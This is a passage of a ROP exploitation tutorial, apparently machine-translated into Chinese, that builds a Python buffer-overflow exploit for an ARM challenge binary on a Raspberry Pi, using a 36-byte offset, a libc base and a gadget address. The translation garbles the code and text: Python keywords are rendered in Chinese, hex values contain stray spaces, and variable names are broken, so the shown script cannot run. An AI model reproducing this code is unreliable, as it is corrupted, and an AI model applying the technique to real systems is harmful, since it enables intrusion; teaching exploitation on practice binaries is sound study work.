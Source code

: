 我们得到了两个地址，所以将它们复制到文本编辑器或其他地方。

所以一切都搞定了。现在我们可以开始写我们的利用。在我的二进制文件中，pc 将在第 36 个位置被覆盖。如您所知，当我们利用一个简单的缓冲区溢出时，我们将精心设计利用方式，我们的外壳代码的起始地址将覆盖 pc，以便执行重定向到该特定位置并执行我们的外壳代码。但是在我们的 rop 中，我们不会指向堆栈中的某个地方，而是以一种我们的小工具的地址会覆盖 pc 的方式来制造漏洞。这里发生的事情是，执行将被重定向到我们提供的小工具/指令的地址，它将在该地址执行该指令

让我们创建一个 python 脚本，你可以使用自己的语言。

> 纳米 rop.py

用垃圾字符填充缓冲区，直到它覆盖 pc。所以我会在这里写 36 个“A”

> #!/usr/bin/python
> 
> junk = "A" * 36

您输入的下一个字符将覆盖 pc。这是我们的奇迹发生了

下一个输入应该是小工具的地址

> 0x00031874: ldr r0，[sp，# 4]；加 sp，sp，# 8；pop {r7，PC }；

要获得实际地址，需要将这个偏移量加到 libc 基址上，因此实际地址是

0x00031874 + libc 地址= 0x 00031874+0xb6e 74000 = 0x b6ea 5874

您可以使用计算器来检查这一点，我们不需要每次都使用 python 中的 struct 模块来手动计算这一点

> #!/usr/bin/python
> 导入结构
> 
> base = 0xb6e74000
> 
> junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x00031874)

我用 libc 基址创建了一个变量“base”。还有一个名为 gadget one 的变量，它保存小工具的实际地址。struct.pack 中的第一个参数是"

*Now take a look at the gadget*

> *ldr r0, [sp, #4]; add sp, sp, #8; pop {r7, pc};*

*Its loading from sp+4 to r0 and adding 8 to the sp .After that its popping out two values from the top of the stack into r7 and pc.Lets see this in gdb .Before that add the print function in the script to output the exploit so that we can provide it to the program*

> *#!/usr/bin/python
> import struct*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x00031874)*
> 
> *印刷品(垃圾+小配件 1)*

*现在运行这个脚本来查看输出*

> *pi @ raspberrypi:~/ASM/challenges $ python ROP . py
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaatx
> pi @ raspberrypi:~/ASM/challenges $*
